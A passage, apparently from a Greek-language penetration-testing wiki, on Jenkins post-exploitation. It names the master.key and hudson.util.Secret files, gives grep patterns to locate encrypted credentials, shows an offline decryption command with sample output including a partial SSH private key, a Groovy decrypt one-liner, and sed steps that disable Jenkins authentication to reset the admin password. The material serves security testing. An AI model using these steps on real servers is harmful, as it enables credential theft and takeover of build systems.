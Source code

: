 ![](<../../images/image (180).png>)

#### Από Groovy

{{#ref}}
jenkins-dumping-secrets-from-groovy.md
{{#endref}}

#### Από δίσκο

Αυτά τα αρχεία είναι απαραίτητα για να **αποκρυπτογραφήσετε τα μυστικά του Jenkins**:

- secrets/master.key
- secrets/hudson.util.Secret

Τέτοια **μυστικά συνήθως μπορούν να βρεθούν σε**:

- credentials.xml
- jobs/.../build.xml
- jobs/.../config.xml

Ακολουθεί μια regex για να τα βρείτε:
```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```
#### Αποκρυπτογράφηση μυστικών Jenkins εκτός σύνδεσης

Αν έχετε εξάγει τα **απαραίτητα κωδικούς πρόσβασης για να αποκρυπτογραφήσετε τα μυστικά**, χρησιμοποιήστε [**αυτό το σενάριο**](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) **για να αποκρυπτογραφήσετε αυτά τα μυστικά**.
```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```
#### Αποκρυπτογράφηση μυστικών Jenkins από το Groovy
```bash
println(hudson.util.Secret.decrypt("{...}"))
```
### Δημιουργία νέου διαχειριστή

1. Πρόσβαση στο αρχείο Jenkins config.xml στο `/var/lib/jenkins/config.xml` ή `C:\Program Files (x86)\Jenkis\`
2. Αναζητήστε τη λέξη `<useSecurity>true</useSecurity>` και αλλάξτε τη λέξη **`true`** σε **`false`**.
1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Επανεκκινήστε** τον **διακομιστή Jenkins**: `service jenkins restart`
4. Τώρα πηγαίνετε ξανά στην πύλη Jenkins και **ο Jenkins δεν θα ζητήσει καμία πιστοποίηση** αυτή τη φορά. Πλοηγηθείτε στο "**Manage Jenkins**" για να ορίσετε ξανά τον **κωδικό πρόσβασης διαχειριστή**.
5. **Ενεργοποιήστε** ξανά την **ασφάλεια** αλλάζοντας τις ρυθμίσεις σε `<useSecurity>true</useSecurity>` και **επανεκκινήστε ξανά τον Jenkins**.
